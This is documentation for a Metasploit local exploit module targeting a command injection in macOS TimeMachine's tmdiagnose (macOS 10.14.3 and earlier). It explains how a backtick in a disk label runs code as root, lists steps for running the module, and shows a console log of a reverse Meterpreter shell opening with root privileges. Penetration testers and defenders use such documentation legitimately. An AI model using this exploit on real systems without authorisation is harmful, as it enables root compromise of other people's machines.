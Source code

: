 ## Vulnerable Application

This module exploits a command injection in TimeMachine on macOS <= 10.14.3 in order to run a payload as root. The tmdiagnose binary on OSX <= 10.14.3 suffers from a command injection vulnerability that can be exploited by creating a specially crafted disk label.

The tmdiagnose binary uses awk to list every mounted volume, and composes shell commands based on the volume labels. By creating a volume label with the backtick character, we can have our own binary executed with root priviledges.

## Verification Steps

1. Get a session on a vulnerable system
2. `use exploit/osx/local/timemachine_cmd_injection`
3. `set lhost <IP>`
4. `set lport <PORT>`
5. `set session <session_id>`
6. `run`

## Scenarios

### Mac OSX 10.14.3 (Mojave)

```

msf5 exploit(multi/handler) > use exploit/osx/local/timemachine_cmd_injection
msf5 exploit(osx/local/timemachine_cmd_injection) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.0.2:5555
[*] Uploading file: '/tmp/qhjlknnmf'
[*] Executing exploit '/tmp/qhjlknnmf'
[*] Exploit result:
2019-04-18 16:18:29.190 qhjlknnmf[51122:107119] creating dmg image
2019-04-18 16:18:33.300 qhjlknnmf[51122:107119] mounting malformed disk
2019-04-18 16:18:33.564 qhjlknnmf[51122:107119] sending XPC msg
2019-04-18 16:18:33.564 qhjlknnmf[51122:107119] now wait a few minutes for the root command to run
[*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (808504 bytes) to 192.168.0.2
[*] Meterpreter session 2 opened (192.168.0.2:5555 -> 192.168.0.2:34270) at 2019-04-18 16:20:02 +0800

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```
